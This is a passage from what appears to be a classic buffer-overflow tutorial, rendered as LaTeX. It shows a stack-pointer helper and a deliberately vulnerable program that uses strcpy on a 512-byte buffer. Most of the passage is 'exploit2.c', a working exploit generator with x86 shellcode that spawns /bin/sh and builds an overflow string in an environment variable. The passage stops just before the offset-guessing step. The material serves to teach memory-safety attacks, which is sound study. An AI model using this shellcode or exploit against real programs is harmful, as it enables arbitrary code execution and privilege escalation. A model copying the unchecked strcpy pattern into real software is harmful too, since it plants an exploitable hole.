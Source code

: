\documentclass[10pt]{article}
\begin{document}
{\begin{lstlisting}[caption=sp.c]
unsigned long get_sp(void) 
{
   __asm__("movl %esp,%eax");
}

void main() 
{
  printf("0x%x\n", get_sp());
}
\end{lstlisting}
\begin{verbatim}
[aleph1]$ ./sp
0x8000470
[aleph1]$
\end{verbatim}
Lets assume this is the program we are trying to overflow is: vulnerable.c 
\begin{lstlisting}[caption=vulnerable.c]
void main(int argc, char *argv[]) 
{
  char buffer[512];

  if (argc > 1)
    strcpy(buffer,argv[1]);
}
\end{lstlisting}
We can create a program that takes as a parameter a buffer size, and an offset from its own stack pointer
(where we believe the buffer we want to overflow may live). We'll put the overflow string in an environment variable 
so it is easy to manipulate: 

\begin{lstlisting}[caption=exploit2.c,frame=single,frameround=tttt,breaklines=true]
#include <stdlib.h>
#define DEFAULT_OFFSET                    0
#define DEFAULT_BUFFER_SIZE             512

char shellcode[] =
"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
"\x80\xe8\xdc\xff\xff\xff/bin/sh";
unsigned long get_sp(void) 
{
   __asm__("movl %esp,%eax");
}

void main(int argc, char *argv[]) 
{
  char *buff, *ptr;
  long *addr_ptr, addr;
  int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
  int i;

  if (argc > 1) bsize  = atoi(argv[1]);
  if (argc > 2) offset = atoi(argv[2]);
  if (!(buff = malloc(bsize))) 
  {
    printf("Can't allocate memory.\n");
    exit(0);
  }

  addr = get_sp() - offset;
  printf("Using address: 0x%x\n", addr);
  ptr = buff;
  addr_ptr = (long *) ptr;
  for (i = 0; i < bsize; i+=4)
    *(addr_ptr++) = addr;

  ptr += 4;
  for (i = 0; i < strlen(shellcode); i++)
    *(ptr++) = shellcode[i];

  buff[bsize - 1] = '\0';
  memcpy(buff,"EGG=",4);
  putenv(buff);
  system("/bin/bash");
}
\end{lstlisting}


Now we can try to guess what the buffer and offset should be:

}
\end{document}
